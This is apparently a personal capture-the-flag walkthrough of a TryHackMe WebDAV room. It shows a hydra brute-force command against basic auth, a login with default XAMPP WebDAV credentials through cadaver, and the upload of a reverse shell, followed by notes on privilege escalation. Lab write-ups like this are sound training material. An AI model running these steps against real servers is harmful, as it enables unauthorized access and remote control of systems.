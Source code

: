 #basic-auth #hydra #cadaver

https://tryhackme.com/r/room/bsidesgtdav

---
#### Nmap
![[Screenshot_2024-05-14_22-01-40.png]]
Ok I found `/webdav` with gobuster and it is a `basic-auth` and I think the username is `dav` so let's use hydra on this:
```shell
hydra -l dav -P /usr/share/wordlists/rockyou.txt -f [target-ip] http-get /webdav
```

Hydra didn't worked so I googled webdav and I realized that was a software, not a person, here is some interresting [informations](https://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html?m=1) 

So I used `cadaver` like suggested
```shell
cadaver http://[target-ip]/webdav
```

I put `wampp:xampp` as credentials and I was connected and able to put a reverse shell:
```shell
put /path/to/my/revshell
```

And here I m in, the `sudo -l` gave me `/bin/cat /root/root.txt` and the `user.txt` was in `merlin`'s home